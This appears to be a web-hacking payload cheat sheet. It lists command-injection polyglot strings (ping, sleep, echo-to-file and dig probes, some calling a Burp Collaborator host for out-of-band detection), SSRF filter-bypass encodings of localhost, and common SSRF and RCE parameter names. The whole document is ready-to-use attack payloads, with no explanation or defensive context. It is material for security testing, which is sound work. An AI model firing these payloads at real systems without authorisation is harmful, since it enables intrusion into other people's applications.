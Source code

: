 # Command injection polyglot
```
/*$(ping -c 2 example.com)`ping -c 2 example.com``*/-ping -c 2 example.com-'/*$(ping -c 2 example.com)`ping -c 2 example.com` #*/-ping -c 2 example.com||'"||ping -c 2 example.com||"/*`*/
/*$(echo 1 >/tmp/rce1)`echo 1 >/tmp/rce1``*/-echo 1 >/tmp/rce1-'/*$(echo 1 >/tmp/rce1)`echo 1 >/tmp/rce1` #*/-echo 1 >/tmp/rce1||'"||echo 1 >/tmp/rce1||"/*`*/
|echo lol2137||a #' |echo lol2137||a #|" |echo lol2137||a #
||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1
||`ping -c 21 grb0fhwh3gg8b9g0nbeqddobp2vsjh.burpcollaborator.net` #' |ping -n 21 grb0fhwh3gg8b9g0nbeqddobp2vsjh.burpcollaborator.net||`ping -c 21 grb0fhwh3gg8b9g0nbeqddobp2vsjh.burpcollaborator.net` #\" |ping -n 21 grb0fhwh3gg8b9g0nbeqddobp2vsjh.burpcollaborator.net
||`dig grb0fhwh3gg8b9g0nbeqddobp2vsjh.burpcollaborator.net` #' |dig grb0fhwh3gg8b9g0nbeqddobp2vsjh.burpcollaborator.net||`dig grb0fhwh3gg8b9g0nbeqddobp2vsjh.burpcollaborator.net` #\" |dig grb0fhwh3gg8b9g0nbeqddobp2vsjh.burpcollaborator.net
$(sleep 21)
```
# SSRF Bypass list for localhost (127.0.0.1):
```
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

# Top 25 SSRF parameters
```
?dest={target}
?redirect={target}
?uri={target}
?path={target}
?continue={target}
?url={target}
?window={target}
?next={target}
?data={target}
?reference={target}
?site={target}
?html={target}
?val={target}
?validate={target}
?domain={target}
?callback={target}
?return={target}
?page={target}
?feed={target}
?host={target}
?port={target}
?to={target}
?out={target}
?view={target}
?dir={target}
```
# Top 25 RCE parameters
```
?cmd={payload}
```